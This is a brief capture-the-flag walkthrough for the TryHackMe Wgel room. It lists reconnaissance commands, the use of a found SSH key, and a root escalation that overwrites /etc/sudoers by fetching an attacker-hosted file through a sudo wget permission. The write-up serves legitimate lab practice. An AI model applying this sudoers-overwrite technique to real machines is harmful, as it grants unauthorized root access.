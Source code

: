 ```yaml
---
title: Walkthrough - Wgel CTF	
published: true
---
```


Exfiltrate the root flag

[https://tryhackme.com/room/wgelctf](https://tryhackme.com/room/wgelctf)

* * *

## Discovery

- nmap -F -A -T4 10.10.247.33 -vvv
- gobuster dir -u http://10.10.247.33/sitemap -w /usr/share/wordlists/dirb/common.txt -x txt,php,html,cgi --no-error -t 100 
- we find a username to use with the id_rsa in the source code of the apache welcome page

* * *

## User flag

- ``cat user_flag.txt``

* * * 

## Root flag

create sudoers file on attacker

```shell
#jessie  ALL=(root) NOPASSWD: /usr/bin/wget
jessie  ALL=(ALL) NOPASSWD: ALL
```

- ``python3 -m http.server 80``

- on target machine travel to /etc and wget sudoers file
- ``sudo su``
- ``cat /root/root_flag.txt``

* * * 